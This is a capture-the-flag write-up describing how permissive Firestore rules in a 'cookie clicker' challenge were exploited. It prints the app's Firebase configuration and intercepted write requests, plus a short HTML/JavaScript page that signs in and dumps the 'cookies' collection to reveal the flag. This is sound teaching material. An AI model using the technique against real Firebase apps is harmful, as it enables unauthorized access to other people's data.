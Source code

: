 # Writeup

This challenge essentially was to try and exploit the rules set on the Firestore instance in firebase which determine what data users are able to CRUD.

Once the user signs up there is a cookie they can click which tracks the amount of click they have clicked the cookie but also how mnay times the cookie has been clicked in general. 

Since this is using Firebase, the credentials for the API are embeded in the frontend. This is an Angular Frontend running in development mode, so to get the creds we inspect the page navigate to `sources` and then `main.js`. This is where all the customer Angular code is located, a quick CTRL+F for firebase gives us the API creds: 

```
const environment = {
    production: false,
    firebase: {
        apiKey: "AIzaSyDOCn4NThEqv9Y-afv36PfJWBUYiGm1rkI",
        authDomain: "cookie-clicker1.firebaseapp.com",
        databaseURL: "https://cookie-clicker1.firebaseio.com",
        projectId: "cookie-clicker1",
        storageBucket: "cookie-clicker1.appspot.com",
        messagingSenderId: "186649534277",
        appId: "1:186649534277:web:a75d541debbd366cebe82c",
        measurementId: "G-7LWV67HSXP"
    }
};
```

Now we can use this to create our own webpage to access the Firestore. But first we need to find out what collections are available. For this we inspect the requests that we are sending any time that we update the cookie clicker.

```
req0___data__: {"streamToken":"EAEZEGhCAoH0tbU=","writes":[{"update":{"name":"projects/cookie-clicker1/databases/(default)/documents/users/uAdLUzHBvhcTvjsKh1Pb5RzvT6m2","fields":{}},"updateMask":{"fieldPaths":[]}},{"transform":{"document":"projects/cookie-clicker1/databases/(default)/documents/users/uAdLUzHBvhcTvjsKh1Pb5RzvT6m2","fieldTransforms":[{"fieldPath":"cookieCount","increment":{"integerValue":"1"}}]},"currentDocument":{"exists":true}},{"update":{"name":"projects/cookie-clicker1/databases/(default)/documents/cookies/total","fields":{}},"updateMask":{"fieldPaths":[]}},{"transform":{"document":"projects/cookie-clicker1/databases/(default)/documents/cookies/total","fieldTransforms":[{"fieldPath":"cookieCount","increment":{"integerValue":"1"}}]},"currentDocument":{"exists":true}}]}
```

So this doesn't make that much sense, but if we have a look through it we can see 2 collections it is querying:

`projects/cookie-clicker1/databases/(default)/documents/cookies/total`
`projects/cookie-clicker1/databases/(default)/documents/users/uAdLUzHBvhcTvjsKh1Pb5RzvT6m2`

So the two collections here are `cookies` and `users`. So let's see what data we can access here. We create our own html file with script tags to interact with the db.


```
<html>
    <head>
    <!-- Import Firebase Scripts -->
        <script src="https://www.gstatic.com/firebasejs/7.19.1/firebase-app.js"></script>
        <script src="https://www.gstatic.com/firebasejs/7.19.1/firebase-firestore.js"></script>
        <script src="https://www.gstatic.com/firebasejs/7.19.1/firebase-auth.js"></script>
    </head>
</html>

<body>
    <script>
        var firebaseConfig = {
            apiKey: "AIzaSyDOCn4NThEqv9Y-afv36PfJWBUYiGm1rkI",
            authDomain: "cookie-clicker1.firebaseapp.com",
            databaseURL: "https://cookie-clicker1.firebaseio.com",
            projectId: "cookie-clicker1",
            storageBucket: "cookie-clicker1.appspot.com",
            messagingSenderId: "186649534277",
            appId: "1:186649534277:web:a75d541debbd366cebe82c",
            measurementId: "G-7LWV67HSXP"
        };

        firebase.initializeApp(firebaseConfig);
        const db = firebase.firestore();

        async function win() {
            // Login with auth
            await firebase.auth().signInWithEmailAndPassword("test@email.com", "samsamsam")
            
            const citiesRef = db.collection('cookies');
            const snapshot = await citiesRef.get();
            
            if (snapshot.empty) {
                console.log('No matching documents.');
                return;
            }  

            snapshot.forEach(doc => {
                console.log(doc.id, '=>', doc.data());
            });

        }
        win();
        

        </script>
</body>
```


This script will login to firebase with our created credentials, and then query the `cookies` collection for all the documents. Hosting this using a simple `python -m http.server 8080` and accessing the page we get the output

```
notaflag => {flag: "DUCTF{ok_it_is_a_flag_AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}"}
```

Note, we could also query the users collection but we would find that we can only get data from our own user.

